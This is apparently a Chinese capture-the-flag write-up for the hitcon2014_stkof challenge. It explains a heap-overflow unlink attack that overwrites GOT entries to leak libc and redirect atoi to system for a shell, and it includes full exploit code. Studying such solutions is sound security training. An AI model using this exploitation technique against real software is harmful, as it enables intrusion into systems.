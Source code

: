 ### hitcon2014_stkof

本题共四个功能：添加、读入内容、删除、显示。其中读入内容存在堆溢出，我们可以利用这个溢出实现 unlink 攻击。程序中存在全局数组 `bag`，存放所有 chunk 的 mem 指针。

先申请 3 个 chunk，其中第 1 个 chunk 没有用，只是因为前两个 chunk 不连续所以才申请的。随后通过 chunk2 溢出到 chunk3 进行 unlink 攻击，这样修改 `bag[2]` 等价于修改 `bag[-1]`，填充掉 `bag[-1]` 和 `bag[0]` 后，令：

- `bag[1] = elf.got['free']`
- `bag[2] = elf.got['fflush']`，`fflush` 可以是任意已调用的 libc 函数
- `bag[3] = elf.got['atoi']`

此时我们 `edit(1)` 写入 `elf.plt['puts']` 即可劫持 `free` 函数到 `puts`，那么调用 `delete(2)` 就会打印出 `fflush` 地址，从而泄露 libc。最后 `edit(3)` 写入 `system` 地址，劫持 `atoi` 到 `system`，这是因为在程序读入指令时会调用 `atoi(&nptr)`，我们输入的 `nptr` 只需要是 `/bin/sh` 即可 getshell。

```python
def add(size):
    sl('1')
    sl(str(size))
    ru('OK\n')

def delete(index):
    sl('3')
    sl(str(index))

def edit(index,content):
    sl('2')
    sl(str(index))
    sl(str(len(content)))
    s(content)
    ru('OK\n')

bag = 0x602140

add(0x80)
add(0x80)
add(0x80)
fd = bag+0x10-0x18
bk = bag+0x10-0x10
payload = flat(0,0x80,fd,bk).ljust(0x80,'a')
payload += flat(0x80,0x90)
edit(2,payload)
delete(3)

# bag[2] <-> bag[-1]
payload = flat('a'*0x10,elf.got['free'],elf.got['fflush'],elf.got['atoi'])
edit(2,payload)
edit(1,p64(elf.plt['puts']))
delete(2) # puts(GOT[fflush])
ru('OK\n')
fflush = uu64(r(6))
leak('fflush',fflush)
system,binsh = ret2libc(fflush,'fflush')
edit(3,p64(system))
sl('/bin/sh\x00')
```
